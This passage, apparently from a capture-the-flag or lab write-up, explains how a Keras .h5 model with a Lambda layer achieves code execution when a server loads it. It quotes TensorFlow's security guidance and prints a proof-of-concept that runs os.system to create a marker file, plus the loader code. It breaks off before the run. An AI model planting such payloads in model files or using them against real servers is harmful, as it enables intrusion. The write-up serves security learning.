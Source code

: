 we can now run custom models, cool, now what?

now if there is any golden rule to security it's that user input is always dangerous if fully trusted, so I looked around how can I get `RCE` using `.h5` then I stumbled upon [this research](https://mastersplinter.work/research/tensorflow-rce/) that dissects `Tensorflow` Models and how they can be used to run arbitrary code

### Tensorflow Models are programs

from the [tensorflow security guideline](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md):
> TensorFlow models are expressed as programs that TensorFlow executes. TensorFlow programs are encoded as computation graphs ... using untrusted models or graphs is equivalent to running untrusted code.

the aforementioned research already explains how can we do so by using `Tensorflow` layers, TL;DR:
> Tensorflow Keras models are built using the “layers” which the library provides .. you can think of layers as functions which take an input and return a result. These functions are “chained” so that the output of the a layer is the input of the next one. Sorry to all the Data Scientists that are currently crying after reading this paragraph.


now according to the research there are a few layers that can be used, one of them is the `lambda` layer which allows *arbitrary Python expressions*  to be executed by the model, thus achieving code execution on the server

### testing the lambda layer in the docker container

I used the code presented in the link to generate a model that creates the `/tmp/pwn3d` file
``` python
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

and the following code to load the model
``` python
import tensorflow.keras

MODEL_PATH = "exploit.h5"

model = tensorflow.keras.models.load_model(MODEL_PATH)
```

I moved the files to my `/tmp/lab` and executed the following from my docker container
